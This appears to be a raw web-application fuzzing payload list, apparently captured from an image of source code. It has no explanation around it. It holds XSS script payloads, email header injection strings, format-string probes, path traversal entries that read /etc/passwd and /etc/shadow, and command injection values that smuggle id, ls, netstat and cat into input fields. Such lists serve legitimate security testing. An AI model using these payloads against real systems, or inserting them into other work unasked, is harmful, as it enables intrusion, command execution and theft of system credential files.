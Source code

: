 <xml SRC="xsstest.xml" ID=I></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<xss><script>alert('XSS')</script></vulnerable>
<youremail>%0aBcc:<youremail>
<youremail>%0aCc:<youremail>
<youremail>%0d%0aBcc:<youremail>
<youremail>%0d%0aCc:<youremail>
=
='
=--
=;
>
?x=
?x="
?x=>
?x=|
@&apos;
@'
@*
@variable
A
ABCD|%8.8x|%8.8x|%8.8x|%8.8x|%8.8x|%8.8x|%8.8x|%8.8x|%8.8x|%8.8x|
FALSE
NULL
PRINT
PRINT @@variable
TRUE
XXXXX.%p
XXXXX`perl -e 'print ".%p" x 80'`
[&apos;]
[']
\
\";alert('XSS');//
\"blah
\&apos;
\'
\..\..\..\..\..\..\..\..\..\..\etc\passwd
\..\..\..\..\..\..\..\..\..\..\etc\passwd%00
\..\..\..\..\..\..\..\..\..\..\etc\shadow
\..\..\..\..\..\..\..\..\..\..\etc\shadow%00
\0
\00
\00\00
\00\00\00
\0\0
\0\0\0
\\
\\&apos;/bin/cat%20/etc/passwd\\&apos;
\\&apos;/bin/cat%20/etc/shadow\\&apos;
\\/
\\\\*
\\\\?\\
\n/bin/ls -al\n
\n/usr/bin/id;
\n/usr/bin/id\n
\n/usr/bin/id|
\nid;
\nid\n
\nid|
\nnetstat -a%\n
\t
\u003C
\u003c
\x23
\x27